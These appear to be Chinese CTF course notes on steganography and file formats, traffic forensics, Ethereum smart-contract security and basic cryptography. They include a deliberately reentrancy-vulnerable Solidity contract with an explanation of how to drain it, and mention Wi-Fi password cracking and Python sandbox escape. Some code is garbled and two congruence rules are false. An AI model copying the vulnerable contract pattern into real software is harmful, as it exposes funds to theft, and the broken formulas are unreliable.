- 'P'：8bit 调色盘，获取的像素值是调色盘索引
- 'RGB'、'RGBA'
- 'CMYK'：转换时有色差，CMY = 255 - RGB，K = 0
- 'YCbCr'、'LAB'、'HSV' 等，转换时有复杂公式（可能出现新的隐写）
- PIL 其他模块用途
- ImageDraw 用于绘制图像、绘制图形
- ImageChops 用于图像通道的逻辑运算
- ImageOps 用于图像整体的运算一类
- ImageFilter 用于图像的滤波处理
Part3:图像格式介绍¶
图像存储¶
- 图像信息：宽高、色彩模式、色彩空间等
- EXIF 信息：拍摄设备、拍摄时间、GPS 信息等
- 像素数据：每个像素的颜色信息；二值、灰度、RGB、CMYK、调色盘等
- 对于标准 RGB 图像，每个像素需要 24 bits(RGB三个字节，可能有A)
- 对于一张 1080p 图像，需要 6.22 MB(RGB)，4K 则需要 24.88 MB(RGBA)
- BMP 格式
- 压力给到了图像格式的压缩算法
- PNG 无损，JPEG 有损
- GIF 有损且只支持 256 色
- 新兴格式如 HEIF、WebP、AVIF 等
JPEG 文件格式¶

JPEG 使用分段的结构来进行存储，各段以 0xFF 开头，后接一个字节表示类型：
- FFD8（SOI）：文件开始
- FFE0（APP0）：应用程序数据段，包含文件格式信息（上图没有）
- FFE1（APP1）：应用程序数据段，包含 EXIF 信息（上图没有）
- FFDB（DQT）：量化表数据
- FFC0（SOF）：帧数据，包含图像宽高、色彩模式等信息
- FFC4（DHT）：huffman 表数据
- FFDA（SOS）：扫描数据，包含数据的扫描方式，huffman 表的使用方式等
- FFD9（EOI）：文件结束
#### JPEG压缩原理 - JPEG 的压缩原理是 DCT（离散余弦变换）+ Huffman 编码 + 由 RGB 转换到 YCbCr，然后减少 Cb、Cr 的采样率 + 将图像分块，每个块 8x8，进行 DCT 变换 - 将图像转换为频域，便于压缩高频部分 - 量化，将 DCT 变换后的系数除以量化表中的系数 + 再次减少高频部分的数据 + 根据不同的量化表，可以调整压缩质量 - 通过游程编码和 huffman 编码进行压缩
PNG文件格式¶

- 文件头 89 50 4E 47 0D 0A 1A 0A | .PNG....
- 采用分块的方式存储数据
- 每块的结构都是 4 字节长度 + 4 字节类型 + 数据 + 4 字节 CRC 校验
- 四个标准数据块：IHDR、PLTE、IDAT、IEND
- 其他辅助数据块：eXIf、tEXt、zTXt、tIME、gAMA……
- eXIf 元信息，tIME 修改时间，tEXt 文本，zTXt 压缩文本
四种标准数据块：
- IHDR：包含图像基本信息，必须位于开头
- 4 字节宽度 + 4 字节高度
- 1 字节位深度：1、2、4、8、16
- 1 字节颜色类型：0 灰度，2 RGB，3 索引，4 灰度透明，6 RGB 透明
- 1 字节压缩方式，1 字节滤波方式，均固定为 0
- 1 字节扫描方式：0 非隔行扫描，1 Adam7 隔行扫描
- PLTE：调色板，只对索引颜色类型有用
- IDAT：图像数据，可以有多个，每个数据块最大 2 31 -1 字节
- IEND：文件结束标志，必须位于最后，内容固定
- PNG 标准不允许 IEND 之后有数据块
PNG压缩原理¶
- PNG 使用 Deflate 压缩算法
- 是 LZ77 结合 huffman 编码的一种压缩算法
- LZ77：利用滑动窗口，找到最长的重复字符串，用指针和长度表示

- 会进行滤波，减少数据的冗余性，提高压缩率
- 五种滤波器：None、Sub、Up、Average、Paeth
Part4:隐写进阶技术¶
图像大小修改¶
- PNG 图像按行进行像素数据的压缩，以及存储 / 读取
- 当解码时已经达到了 IHDR 中规定的大小就会结束
- 因此题目可能会故意修改 IHDR 中的高度数据，使之显示不全
- 恢复的话更改高度即可，同时注意 crc 校验码，否则可能报错
- binascii.crc32(data)，data 为从 IHDR 开始的数据

需要原图的图像隐写¶
有些情况下的图像隐写需要原图才能解密，这时第一步一般是 OSINT 搜索原图
- 使用识图工具进行搜索
- 一般需要搜原图的题题目描述会带有来源暗示之类的
-
多注意搜到的图像大小、质量，确保是真正的原图 接下来利用原图和隐写图像的差异进行分析
-
图像像素异或观察差异
- PIL 手动处理 / ImageChops.difference
- stegsolve image combiner 盲水印系列
- 给了打水印的代码的话直接尝试根据代码逆推即可
- 没有给代码的可能就是常见的现有盲水印工具
-
工具steghide、stegoveritas、SilentEye
音频文件格式简介¶
音频类题目其实并不常出：
- mp3：有损压缩
- 具体格式不多介绍，遇到了基本上也就是声音本身的隐写
- wav：无损无压缩（waveform）
- 直接存储的是音频的波形数据，可操作性更高
- 文件结构也是分 chunk 的，有 RIFF、fmt、data 等
- 编码音频数据的 sample 也可以进行 LSB 隐写
- flac：无损压缩，如果出现可能考虑转换为 wav
- 使用 Python 的 soundfile / librosa 库进行音频处理
- 频谱隐写
- 音频叠加
- 如果可以找到原音频，或提供了原音频，可以进行比较
- 方法是在 Audition 中创建多轨会话
- 将两个音频拖入两个轨道
- 效果 > 匹配响度，将两条音轨的响度匹配
- 点进其中一条音轨，效果 > 反相，将波形上下颠倒
- 两条音轨匹配上波形之后播放 / 混音，就能听到差异了
其他Misc题目¶
ZIP伪加密¶
- ZIP 也使用分段的方式存储数据
- 本地文件记录 50 4B 03 04，可以有多个
- 中央目录记录 50 4B 01 02，可以有多个
- 中央目录结束 50 4B 05 06
- 在中央目录记录中有一个字段记录加密方式
- 如果不为 0 表示有加密
- 其他字段，如最小版本
- 可能修改为一个不合法的值，无法用解压软件解压
沙箱逃逸和 PPC¶
- 沙箱：做了某些限制的隔离环境
- 例如 Docker，或一个沙箱程序，如 rbash
- Python 解释器也可以作为一个沙箱
- 通过限制模块、限制函数、代码审计等方式
-
沙箱逃逸就是在沙箱中执行代码，获取到沙箱外的权限
- Python 的 os 及 importlib 模块是常见的逃逸点
-
PPC 题较为不常见
- 一般是限制代码长度 / 汇编指令，要求实现某个功能
7-9 Misc专题2¶
授课：TonyCrane
Part1:流量取证¶
流量取证基础¶
- 网络流量（ > 回顾 web 基础）
- 应用层（HTTP/FTP/ .） > 表示层 > 会话层（SSL/TLS/ .）
-
传输层（TCP/UDP） > 网络层（IP/ICMP/ .）
-
数据链路层 > 物理层
- 最终传输的仍然是二进制数据
- 捕获这些数据，就可以分析得到正在进行的通信内容
- 流量取证一般就是拿到这些数据包（cap、pcap、pcapng 格式）进行分析
- 如有损坏的话修复数据包（少见，pcapfix 可以修复）
- 分析、提取得到正在通信的内容（可能包含有效信息）
- 分析一些特定的、不太常见的协议（比如一些自定义协议）
- 分析、解密一些加密的协议（比如 VMess 等）
流量取证常用工具¶
- tcpdump 抓 TCP 包（Linux 命令行）
- Wireshark：直接抓包，得到物理层的全部数据并解析（开源）
- 自带命令行工具 tshark
- termshark：类似 Wireshark 的开源命令行工具
- pyshark：tshark 的 Python 封装，可以用 Python 脚本分析
- scapy：Python 库，也可以用来分析流量包
Wireshark 基本用法
- 浏览主界面的所有数据包，大致了解都由什么协议组成
- 追踪流（追踪 TCP 流 / 追踪 HTTP 流）
- 得到某次通信的全部数据包，并进行解析
- 另存为，保存流数据
- 可以转换不同的显示形式（ASCII、HEX、Raw）
- 文件 > 导出，提取某些数据包的流内容
- 统计部分
- 协议层次：统计各层协议的数据包数量
- 流量图：统计各个端口的流量，可视化显示
- HTTP：分组计数、请求统计
Wireshark 过滤器
- 过滤协议：直接输入 tcp/udp/http 等
- 过滤 ip：ip.addr = xx.xx.xx.xx 或 ip.src ip.dst
- 过滤端口：tcp.port = 80 或 tcp.srcport tcp.dstport
- 包长度过滤：frame.len ip.len tcp.len ……
- http 过滤
- http.request.method = GET
- http.request.uri = "/index.php"
- http contains "flag"（相当于搜索功能）
HTTP协议流量分析
- 分析统计信息
- 查看所有的 HTTP 请求 URI
- 分析 HTTP 往返的情况，流量整体信息
- 具体分析某些请求：利用过滤器
- 分析某一数据包具体内容
- 跟踪流，跟踪 TCP 解析 TCP，跟踪 HTTP 可以自动解压 gzip 等
- 分析请求头、响应头、请求体、响应体等
UDP 协议
-
UDP 协议是无连接的，不需要像 TCP 一样三次握手
-
和 TCP/HTTP 一样直接追踪分析就可以
- 常见的基于 UDP 的协议：DNS
-
具体题目示例
-
本次 lab 中的题目：dnscap
-
MRCTF 2022：Bleach!
- 基于 UDP 的 RTP 协议，需要手动选择进行解析
- RTP 是一种音视频传输协议，可以得到音频流
- wav 音频流中 LSB 包含隐写图片
-
其他协议
- ICMP 协议：ping
- 某时也会带有一些信息，可以进行进一步分析
-
OICQ 协议：QQ 使用，是加密的，但是可以看到双方 QQ 号等
-
WIFI 协议（IEEE 802.11）
- 可以使用 Linux aircrack 套件爆破密码
- 有了密码后可以在 Wireshark 中设置并解密流量
- USB 协议
- 安装了 USBcap 之后可以在 Wireshark 中捕获 USB 流量
- 有工具可以解析流量，绘制鼠标轨迹，得到按键信息等
- 其他加密协议
- VMess，需要读文档 / 源码，实现解密
Part2:以太坊区块链基础¶
以太坊模型全览¶
区块与世界状态

- 每个区块包含三颗 Merkle 树根节点 - stateRoot 即世界状态树根节点，状态是一组用户状态的组合 - 区块由“矿工”或“验证者”将交易打包形成，后广播到网络中 - 每条交易会引发世界状态的转变，消耗一定 gas交易与世界状态转变

- 每一条交易都会引起状态的改变 - 多个交易打包到一起，最终状态就是新区块存储的状态 - 交易信息中包含 hash/v/r/s 为交易签名，用于验证交易的合法性 - 合约在 EVM 上执行，执行过程中也有各种漏洞账户与交易¶
账户
- 外部账户（Externally Owned Account）
- 有一对公私钥，用于签署交易
- 私钥是随机生成的 256 位数（32 字节）
- 公钥由私钥经过 ECDSA 算法计算而来，是一个 64 字节的数
- 地址由公钥经过 Keccak-256 哈希后取前 20 字节得到

- 合约账户（Contract Account）
- 由 EOA 通过交易创建的账户，其中包含合约代码
- 合约可以存储、拥有以太币
- 向合约账户发送交易 > 调用合约中的函数
- 合约本身不能主动发起交易，但可以在被调用时向外发送交易
交易
- 一条交易包含以下内容：
- from：交易发送者地址
- to：交易接收者地址，如果为空则表示是在创建智能合约
- value：交易金额，即发送方要给接收方转移的以太币数量（wei 为单位）
- data：交易数据，如果是创建智能合约则是智能合约代码，如果是调用智能 合约则是调用的函数名和参数
- gasPrice：交易的 gas 价格，即每单位 gas 的价格（wei 为单位）
- gasLimit：交易的 gas 上限，即交易允许执行的最大 gas 数量
- nonce：交易的序号，即发送者已经发送的交易数量
-
除此之外发送的交易数据包还需要包含：
-
hash：交易的哈希值，由前面的内容和 chainId 计算得到
-
v、r、s：交易签名的三个部分，由发送者私钥对交易哈希值进行签名得到 以太币单位
-
关于链与 faucet
-
公开链：真实的交易
-
通过 https: /etherscan.io/ 查看
-
主网（mainnet）：真正的金钱交易，很少使用
-
测试链：Sepolia / Holesky 链，可以通过 faucet 获取免费代币
-
https: /sepolia-faucet.pk910.de/
-
Ethernaut 等大型公开合约 CTF 平台会使用
- 私链：自己搭建的链，模拟真实的链
- 一般 CTF 题目都使用私链部署
- 可以通过 geth 等工具部署私链
-
-
智能合约安全基础¶
关于合约
-
合约的创建和调用都通过交易来进行
-
合约调用：
-
data 字段为编码后的函数名（selector）和参数，称为 calldata
-
selector 是函数签名 keccak256 的前四个字节
-
不存在对应 selector 则会调用 fallback 函数，还不存在则 revert
- 合约存储：全公开存储，都在链上，可以 getStorageAt 查看
-
-
revert：回滚，所有当前调用中的状态改变全都复原
-
合约编译后得到字节码在 EVM 上运行：
- https:/ethervm.io/
Solidity 语言
https://note.tonycrane.cc/ctf/blockchain/eth/solidity/ 官方文档：https://docs.soliditylang.org/en/latest/index.html
- 以太坊官方的编写智能合约的语言
- IDE：https: /remix.ethereum.org/
- 通过 contract 关键字声明一个合约
- 通过 function 定义一个可以调用的函数
- public、internal、external、private
- 属性（状态）会自动创建 getter 函数
- 通过 view、pure 关键字定义一个不改变状态的函数
- 通过 payable 关键字定义一个可以接收以太币的函数
- 特殊函数：constructor、fallback、receive
常见漏洞¶
- 重入攻击
contract Bank {
mapping(address > uint256) balances;
.
function withdraw(uint256 amount) public {
require(balances[msg.sender] = amount);
msg.sender.call.value(amount)("");
balances[msg.sender] -= amount;
}
}
withdraw 时先转钱再更新 balances,转钱的时候会进入到目标合约的 fallback 函数，可以再次调用 withdraw,再次调用时require检查的仍然是老的 balances,这样可以把钱取空
- 伪随机数
- 区块链需要所有以太坊节点验证交易计算出相同结果达成共识
- 无法实现真随机数
- 伪随机可以破解：
- 利用区块变量作为随机数：可以获取
- 利用 blockhash 作为随机数：只保留最近 256 个区块
- 回滚攻击：不断 revert 来猜随机数 其他常见漏洞
CTF 比赛中的私链题目交互¶
一般会过滤掉大部分 geth rpc 接口,防止其他队伍扒链蹭车 / 重放
- 白名单示例可见 chainflag/solidctf中的白名单，一般就是这些
-
geth 手动操作很复杂（只能发 raw），remix/metamask 可能会无法连接
-
可以 / 推荐通过 web3.py 进行交互
-
通过 eth.contract 和 abi 与 addr/bytecode 创建合约对象
-
通过 contract.functions.f().build_transaction() 构建交易
-
通过 eth.account.sign_transaction(txn, privateKey) 签名
-
得到 rawTransaction 后 eth.send_raw_transaction(raw) 发送
-
通过 eth.wait_for_transaction_receipt(hash) 等待交易完成
-
无需交易的 view 函数可以直接 contract.functions.f().call()
-
https:/note.tonycrane.cc/ctf/blockchain/eth/basic/ _15
-
more
Read more: note.tonycrane.cc/ctf/blockchain/eth - 以太坊基础知识：账户、交易、合约、区块等，及其原理
-
Solidity 语言：最常用的智能合约语言，以太坊官方语言
-
了解其语法、类型，以及合约运行的整体逻辑
-
了解一些 ERC 标准（目的是看懂题目的合约）
-
以太坊虚拟机（EVM）：执行合约字节码的栈结构虚拟机
-
了解其运行原理，与账户、合约、交易的关系，反汇编、反编译的方法
-
交互、测试环境：geth、Remix、MetaMask、web3.js、web3.py 等
- 常见合约漏洞：整型溢出、重入、伪随机、薅羊毛、非预期的远程调用……
Crypto¶
约 1412 个字 预计阅读时间 5 分钟
授课：城堡
密码学基础¶
密码学是研究编制密码和破译密码的技术科学
- 设计加解密算法
- 破解加解密算法
密码学介绍¶
为何需要密码学¶
- 存储：信息的存储可能是不安全的，会被窃取
- 传输：信息的传输过程可能也不是隐秘的，会被窃听
不能直接使用明文进行存储和传输！
Crypto in CTF¶
出题人给定一个有一定缺陷的加密算法，需要选手攻破该加密算法，得到解密后的文字，或者伪造加密信息
比赛中题目虽然常常会涉及许多较新的论文研究结果，但是仍与目前隐私计算等前沿密码学安全研究有一定距离
Crypto学习资源推荐¶
- CTF Wiki
- 4老师倾情推荐的密码学做题网站：CryptoHack
- 密码学入门书籍：An introduction to mathematical cryptography
基本术语¶
- 消息被称为明文（Plaintext）。用某种方法伪装消息以隐藏它的内容的过程称为加密 （Encryption），被加密的消息称为密文（Ciphertext），把密文恢复为明文的过程称为密（Decryption）。
- 密码算法（Cryptography Algorithm）：是用于加密和解密的数学函数。
- 密钥（Key）：加密或解密所需要的除密码算法之外的关键信息。
- 对称加密（Symmetric Cryptography）
- 特点：在加密和解密时使用同一密钥
- 例子：流密码（RC4），块密码（AES，DES）
- 非对称加密（Asymmetric Cryptography）
- 特点：在加密和解密时使用不同密钥，加密使用公钥，解密使用私钥
- 例子：RSA，ElGamal，ECC
- 哈希函数（Hash Function）
- 特点：把输入内容单向映射到一个短的摘要上
- 应用：下载文件完整性校验
- 例子：CRC，MD5，SHA系列
- 数字签名（Digital Signature）
- 应用：对消息进行签名（也是一个短的消息），以防消息的冒名伪造或篡改

数学基础¶
OI Wiki 数论部分¶
整除：$ a \mid b $¶
- \(\forall a \in \mathbb{Z}~, 1 \mid a\) ；若 \(a \neq 0\)，则 \(a \mid 0\) 且 \(a \mid a\)
- 若 \(a \mid b\) 且 \(b \mid c\)，则 \(a \mid c\)
- 若 \(a \mid b\) 且 \(a \mid c\)，则 \(a \mid (sb + tc)\)，其中 \(s, t \in \mathbb{Z}\)
最大公因数（Greatest Common Divisor, GCD）：$ \gcd(a, b) $¶
- \(\gcd(a, b) = \gcd(b, a)\)
- \(\gcd(a, b) = \gcd(a, b - a)\)
- \(\gcd(a, b) = \gcd(a, b \mod a)\)
特别的，当 \(a\)、\(b\)互素，即 $ \gcd(a, b) = 1 $时，一定存在整数 \(x, y\) 使得 \(ax + by = 1\)
算数基本定理¶
任何一个大于 \(1\) 的自然数 \(n\) 都可以唯一地分解为若干个素数的乘积 $$ n = p_1^{a_1} \times p_2^{a_2} \cdots \times p_k^{a_k} $$ 其中 \(p_1, p_2, \cdots, p_k\) 是素数，\(a_1, a_2, \cdots, a_k\) 是正整数
同余¶
\(a,b\)对于模\(n\)同余：\(a \equiv b \pmod{n}\)
设 \(a, b, c, d, n\)均为整数，且 \(n \neq 0\)，则有：
- $ n \mid a \Leftrightarrow a \equiv b \pmod{n} $
- $ a \equiv a \pmod{n} $
- 若 \(a \equiv b \pmod{n}\)，\(c \equiv d \pmod{n}\)，则 \(a \pm c \equiv b \pm d \pmod{n}\)，\(ac \equiv bd \pmod{n}\)
- 若 \(a \equiv b \pmod{n}\)，则 \(a^k \equiv b^k \pmod{n}\)
- 若 \(a \equiv b \pmod{n}\)，\(c \equiv d \pmod{n}\)，则 \(a^c \equiv b^d \pmod{n}\)
- 若 \(a + b \equiv 0 \pmod{n}\)，则称 \(a\) 与 \(b\) 互为加法模 \(n\) 逆元
- 若 \(ab \equiv 1 \pmod{n}\)，则称 \(a\) 与 \(b\) 互为乘法模 \(n\) 逆元。\(a\) 的乘法模 \(n\) 逆元记为 \(a^{-1}\) ，\(a\) 有乘法模 \(n\) 逆元当且仅当 \(\gcd(a, n) = 1\)
中国剩余定理¶
若 \(m_1, m_2, \cdots, m_k\) 是两两互质的正整数，则对于任意的整数 \(a_1, a_2, \cdots, a_k\)，同余方程组 \[ \begin{cases} x \equiv a_1 \pmod{m_1} \\ x \equiv a_2 \pmod{m_2} \\ \cdots \\ x \equiv a_k \pmod{m_k} \end{cases} \] 对模 \(m = m_{1}m_{1} \cdots m_{1}\) 有唯一解 \(x\)。
设 \(M_i = \frac{m}{m_i}\)，则 \(M_i\) 与 \(m_i\) 互质，存在整数 \(N_i\) 使得 \(M_iN_i \equiv 1 \pmod{m_i}\)（\(N_i\) 为 \(M_i\) 的模 \(m_i\) 乘法逆元），则 $$ x = \sum_{i=1}^{k} a_iM_iN_i $$
欧拉函数¶
对于正整数 \(n\)，欧拉函数 \(\varphi(n)\) 定义为小于等于 \(n\) 的正整数中与 \(n\) 互质的数的个数
- 若 \(n = p_1^{a_1} \times p_2^{a_2} \cdots \times p_k^{a_k}\)，则 \(\varphi(n) = n \times (1 - \frac{1}{p_1}) \times (1 - \frac{1}{p_2}) \cdots (1 - \frac{1}{p_k})\)
- 若 \(n = p^a\)，则 \(\varphi(n) = p^a - p^{a-1} = p^{a-1}(p-1)\)
- 若 \(n = p \times q\)，且 \(p, q\) 互质，则 \(\varphi(n) = \varphi(p) \times \varphi(q)\)
- 若 \(n = p \times q\)，且 \(p, q\) 为不同的质数，则 \(\varphi(n) = (p-1)(q-1) = \varphi(p) \times \varphi(q)\)
欧拉定理¶
若 \(a, n\) 互质，则 \(a^{\varphi(n)} \equiv 1 \pmod{n}\)
费马小定理（欧拉定理的特例）：当 \(n\) 为质数时，\(\varphi(n) = n - 1\)，即 \(a^{n-1} \equiv 1 \pmod{n}\)
RSA算法¶
- 选择两个大质数 \(p, q\)，计算 \(n = p \times q\)，\(\varphi(n) = (p-1)(q-1)\)
- 选择 \(e\)，使得 \(1 < e < \varphi(n)\)，且 \(\gcd(e, \varphi(n)) = 1\)
- 计算 \(d\)，使得 \(d \equiv e^{-1} \pmod{\varphi(n)}\) ，即 \(d \times e \equiv 1 \pmod{\varphi(n)}\)
- 于是得到公钥为 \((e, n)\)，私钥为 \((d, n)\)， 设明文为 \(m\)，密文为 \(c\)，若消息太长，可将消息分段加密
- 加密：\(c = m^e \mod n\)
- 解密：\(m = c^d \mod n\)
古典密码¶
- 代换（substitution）密码——用新的替换原先的内容
- 置换（permutation）密码——打乱原先的顺序
- Hill密码
凯撒密码¶
又称加法密码，是一种最简单的替换密码，是一种使用恒定偏移量的替换密码，将字母表中的每个字母循环移动固定位数得到密文
- 加密：\(y = \text{encode}(x) = (x + key) \mod 26\)
- 解密：\(x = \text{decode}(y) = (y - key) \mod 26\)
- 破解：暴力枚举观察结果（常见编码ROT13，取\(key = 13\)）
一般的凯撒加密只作用于26个字母，但也可拓展到ASCII码表上（常见编码ROT47，将33~126作为字母表，取\(key = 47\)）
仿射密码¶
仿射密码是一种线性替换密码，类似于凯撒加密，但不止进行加法
- 加密 \(y = \text{encoude}(x) = (x \times key_1 + key_2) \mod 26\)
- 解密 \(x = \text{decode}(y) = (y - key_2) \times key_1^{-1} \mod 26\)
- 破解：单表密码加密前后的字符是一一对应的，不会破坏统计规律，根据英文文本中字母出现的频率以及一些常见单词即可轻松破解(如
the,and,youa等)
维吉尼亚密码¶
一种多表加密的替换密码，密钥任意长，并且以循环使用，第 \(i\) 个字符用第 \(i\) 个密钥进行偏移
- 加密：\(y_i = \text{encode}(x_i) = (x_i + key_i) \mod 26\)
- 解密：\(x_i = \text{decode}(y_i) = (y_i - key_i) \mod 26\)

例：明文CRANE，密钥TONY
- (C, T) \(\rightarrow\) V
- (R, O) \(\rightarrow\) F
- (A, N) \(\rightarrow\) N
- (N, Y) \(\rightarrow\) L
- (E, T) \(\rightarrow\) X
破解：确定密钥长度 \(\rightarrow\) 分组爆破加法密码 \(\rightarrow\) 得到密钥
置换密码¶
加密变换使得信息元素只有位置变化而内容不变，比如对于一种置换密码，其置换表为
| X | 1 | 2 | 3 | 4 | 5 | 6 |
|---|---|---|---|---|---|---|
| E(X) | 3 | 5 | 1 | 6 | 4 | 2 |
对于明文\(\texttt{crypto basic}\)，先进行分组（不足需填充）：\(\texttt{[crypto]}\)和\(\texttt{[ basic]}\)，然后对每一组进行置换： 对每一组进行置换： \(\texttt{[crypto]} \rightarrow \texttt{[yoctrp]}\) \(\texttt{[ basic]} \rightarrow \texttt{[ac ibs]}\) 最终密文就是\(\texttt{yoctrpac ibs}\)
栅栏密码¶
栅栏密码也是一种置换密码，其将明文分割成k行，然后重新拼接，这里k即为加密的密钥
对于明文\(\texttt{crypto basic}\),取 \(k=3\) ，将明文分割成三行
c |
p |
s |
|
|---|---|---|---|
| r | t | b | i |
| y | o | a | c |
因此得到的密文为\(\texttt{cp srtbiyoac}\)
Hill密码¶
希尔密码是运用基本线性代数原理实现的替换密码
每个字母当作26进制数字，将一串字母当成 \(n\) 维向量，与一个 \(n \times n\) 的矩阵相乘，再将得出的结果 mod 26，其中这个 \(n \times n\) 矩阵就是密钥
比如明文 \(\texttt{IT}\) ，转换成26进制为$P = \begin{bmatrix} 9 & 20 \end{bmatrix} $，加密密钥 $ K = \begin{bmatrix} 11 & 8 \\ 3 & 7 \end{bmatrix} $
